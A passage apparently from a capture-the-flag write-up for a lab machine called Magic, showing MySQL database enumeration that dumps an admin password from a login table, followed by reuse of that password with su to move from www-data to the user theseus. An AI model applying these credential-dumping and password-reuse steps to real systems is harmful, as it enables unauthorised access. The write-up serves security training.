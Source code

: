 It worked! We got access.

Lets enumerate the database and tables:

```shell
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Magic              |
+--------------------+
2 rows in set (0.033 sec)

MySQL [(none)]> use Magic;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Magic]> show tables;
+-----------------+
| Tables_in_Magic |
+-----------------+
| login           |
+-----------------+
1 row in set (0.035 sec)

MySQL [Magic]> select * from login;
+----+----------+----------------+
| id | username | password       |
+----+----------+----------------+
|  1 | admin    | Th3s3usW4sK1ng |
+----+----------+----------------+
1 row in set (0.042 sec)
```

Nice! We found the admin credentials:

```shell
admin:Th3s3usW4sK1ng
```

### Using su and the password we found to get shell as theseus

The password seems to say Theseus Was King. Maybe this is the password for the user Theseus?

 Lets try changing to the user theseus using this password:
 
```shell
www-data@magic:/var/www/Magic/images/uploads$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@magic:/var/www/Magic/images/uploads$ 
```
